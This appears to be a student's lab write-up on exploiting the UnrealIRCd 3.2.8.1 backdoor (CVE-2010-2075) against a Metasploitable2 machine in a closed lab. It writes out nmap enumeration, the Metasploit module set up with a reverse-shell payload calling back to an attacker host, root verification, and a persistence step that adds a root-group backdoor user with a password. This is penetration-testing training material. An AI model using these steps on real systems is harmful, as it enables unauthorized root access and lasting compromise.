

# Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
     *(Ensure this screenshot clearly shows the version number)*

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.
    

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.
     *(This screenshot should show the "session opened" message)*

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.
     *(Rename this screenshot to something like `images/Root_Access_Proof.png` for clarity, and ensure it shows both `whoami` and `id` outputs if possible)*

### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).
    

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.